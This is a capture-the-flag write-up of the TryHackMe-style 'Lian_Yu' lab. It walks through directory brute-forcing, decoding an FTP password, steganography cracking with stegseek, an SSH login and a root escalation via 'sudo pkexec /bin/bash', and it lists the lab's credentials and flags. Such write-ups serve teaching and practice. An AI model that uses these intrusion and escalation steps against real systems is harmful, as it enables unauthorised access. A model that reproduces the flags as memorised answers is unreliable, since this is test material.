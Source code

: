 # Lian_Yu

* IP = 10.10.79.242

## Questions/Tasks:

1. Deploy the VM<br>
*No answers needed*

* Nmap Scan Report:
```bash
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC \#100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44114/udp   status
|   100024  1          46468/udp6  status
|   100024  1          48522/tcp6  status
|_  100024  1          58311/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* Gobuster Scan Report:<br>
* Initial
```bash
$ gobuster -u "http://10.10.203.137/" -w directory-list-2.3-small.txt
/island (Status: 301)
```
![Screenshot](./1.png)

* Second
```
$ gobuster -u "http://10.10.203.137/island" -w directory-list-2.3-small.txt
/2100 (Status: 301)

```
* Strange comments found:<br>
![Screenshot](./2.png)
* Third
```
$ gobuster -u "http://10.10.203.137/island/2100" -x ticket -w directory-list-2.3-small.txt
/green_arrow.ticket (Status: 200)
```

2. What is the Web Directory you found?<br>
**Ans-2100**

3. what is the file name you found?<br>
**Ans-green_arrow.ticket**<br>
![Screenshot](./3.png)

4. what is the FTP Password?

* The above code is probably base58
* After decoding-!#th3h00d<br>
**Ans-!#th3h00d**

5. what is the file name with SSH password?

* Login with ftp:
```
username: vigilante
password: !#th3h00d
```
* 3 files are present in home directory:
![Screenshot](./4.png)
* We get all of them, 2 of those looks ok but the *Leave_me_alone.png* was corrupted
* Use hexedit to change the 1st bytes as follows:<br>
*Previous*
```
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452  XEo.........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
*After Changing*
```
00000000: 8950 4e47 0a0d 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
![Images](./Queen's_Gambit.png)
![Images](./aa.jpg)
* But that doesn't change the problem
* So trying on the .jpg file, we can find some hidden stuff with steghide/stegseek:
```bash
→ stegseek aa.jpg rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

```
* Extracting the ss.zip from aa.jpg and unzipping it we get:
```bash
→ unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado  
```
* Contents of shado:
```
M3tahuman
```
* Contents of passwd.txt:
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

```
**Ans-shado**

6. user.txt

* Previously while exploring the ftp server we found the slade user other than vigilante:<br>
![Screenshot](./5.png)
* I tried first with vigilante but didn't succeed.
* SSH into server with:
```bash
ssh slade@$IP
```
* Navigate to user's home and find the flag:<br>
**Ans-THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}**

7. root.txt

* To escalate privileges, first check the commands that can be run with sudo(using the same password, M3tahuman):
```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Sorry, try again.
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
* Search <a href="">Gtfobins</a> for specific privilege escalation technique with pkexec:
```bash
sudo /usr/bin/pkexec /bin/bash
```
* Navigate to /root and find the flag <br>

**Ans-THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}**
